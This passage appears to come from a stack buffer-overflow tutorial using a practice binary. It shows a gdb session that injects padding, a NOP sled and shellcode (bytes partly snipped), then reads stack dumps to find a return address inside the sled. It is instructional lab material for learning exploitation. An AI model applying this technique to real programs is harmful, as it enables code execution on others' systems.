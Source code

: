 #### Exploit with Shellcode

```shell
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

Breakpoint 1, 0x56555551 in bowfunc ()

```

Next, we check if the first bytes of our shellcode match the bytes after the NOPS.

#### The Stack

```shell
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd64c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd654:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd65c:	0x90	0x90	0xda	0xca	0xba	0xe4	0x11	0xd4
						 # |----> Shellcode begins
<SNIP>

```


# Identification of the Return Address

* * *

After checking that we still control the EIP with our shellcode, we now need a memory address where our NOPs are located to tell the EIP to jump to it. This memory address must not contain any of the bad characters we found previously.

#### GDB NOPS

```shell
(gdb) x/2000xb $esp+1400

<SNIP>
0xffffd5ec:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5f4:	0x55	0x55	0x55	0x55	0x55	0x55	0x90	0x90
								# End of "\x55"s   ---->|  |---> NOPS
0xffffd5fc:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd604:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd60c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd614:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd61c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd624:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd62c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd634:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd63c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd644:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd64c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd654:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd65c:	0x90	0x90	0xda	0xca	0xba	0xe4	0x11	0xd4
						 # |---> Shellcode
<SNIP>

```
